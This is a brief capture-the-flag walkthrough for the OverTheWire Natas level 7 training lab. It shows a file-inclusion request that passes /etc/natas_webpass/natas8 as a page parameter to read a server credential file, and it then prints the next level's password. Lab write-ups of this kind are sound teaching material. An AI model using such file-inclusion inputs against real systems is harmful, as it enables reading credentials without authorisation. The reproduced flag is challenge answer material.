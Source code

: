 # Natas 7

Link : http://natas7.natas.labs.overthewire.org/

Natas 7 screen :

<img src="imgs/natas7.PNG" alt="Natas7 screen">

Natas 7 source code :

<img src="imgs/url_natas7.png" alt="url Natas7">

Hint: password for webuser natas8 is in /etc/natas_webpass/natas8

```
http://natas7.natas.labs.overthewire.org/index.php?page=/etc/natas_webpass/natas8
```
<img src="imgs/natas7_sol.PNG" alt="natas7 sol">

So the password for Natas 8 is : DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe